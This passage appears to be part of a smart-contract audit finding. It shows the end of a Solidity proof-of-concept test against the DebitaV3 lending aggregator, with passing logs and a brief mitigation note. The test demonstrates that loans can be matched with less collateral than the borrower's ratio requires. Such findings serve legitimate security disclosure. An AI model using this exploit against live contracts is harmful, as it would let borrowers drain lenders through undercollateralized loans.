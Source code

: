 ```solidity

        // Call matchOffersV3
        DebitaV3AggregatorContract.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            address(BorrowOrder),
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        vm.stopPrank();

        // Validate the exploit
        // Expected collateral at upper bound ratio (81.6 PRIN per COL)
        uint256 expectedCollateral = (816000 ether * 1 ether) / (81.6 ether);

        // Actual collateral locked in the loan
        address loanAddress = DebitaV3AggregatorContract.getAddressById(1);
        DebitaV3Loan loan = DebitaV3Loan(loanAddress);
        DebitaV3Loan.LoanData memory loanData = loan.getLoanData();

        uint256 actualCollateral = loanData.collateralAmount;

        // Collateral required at borrower's ratio (80 PRIN per COL)
        uint256 collateralAtBorrowerRatio = (816000 ether * 1 ether) / (80 ether);

        // Assertions
        assertEq(actualCollateral, expectedCollateral, "Collateral amount mismatch");
        assertTrue(actualCollateral < collateralAtBorrowerRatio, "Collateral is not less than expected");

        // Output results
        console.log("Expected Collateral at Upper Bound Ratio:", expectedCollateral / 1 ether);
        console.log("Actual Collateral Locked:", actualCollateral / 1 ether);
        console.log("Collateral at Borrower's Ratio:", collateralAtBorrowerRatio / 1 ether);
    }
}
```
The logs:
```bash
[PASS] testExploitMargin()

  Expected Collateral at Upper Bound Ratio: 10000
  Actual Collateral Locked: 10000
  Collateral at Borrower's Ratio: 10200
```


### Mitigation

Look at how AAVE Implements varying collateralization ratios depending on asset volatility and employs strict liquidation mechanisms without margins for undercollateralization.